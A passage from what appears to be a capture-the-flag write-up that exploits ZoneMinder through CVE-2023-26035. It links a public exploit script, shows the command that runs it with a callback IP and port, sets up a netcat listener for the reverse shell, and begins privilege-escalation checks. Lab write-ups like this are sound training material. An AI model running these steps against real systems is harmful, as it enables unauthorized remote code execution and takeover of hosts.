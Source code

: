 I googled for available exploits for ZoneMinder and came across another RCE-related exploit. Download the script from this github [**CVE-2023-26035**](https://github.com/rvizx/CVE-2023-26035).

Run this command on local machines:

```terminal
python3 exploit.py -t http://127.0.0.1:2222 -ip 10.10.11.245 -p 1234
```
![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20081909.png?raw=true)

Open nc listener on target machines.

```terminal
nc -lvnp 1234
```
![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20081920.png?raw=true)

1. Check for privelege on permissions

```terminal
sudo -l
```
![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20083205.png?raw=true)


2. In /usr/bin there are scripts that are part of ZoneMinder

```terminal
ls -l /usr/bin/zm*
```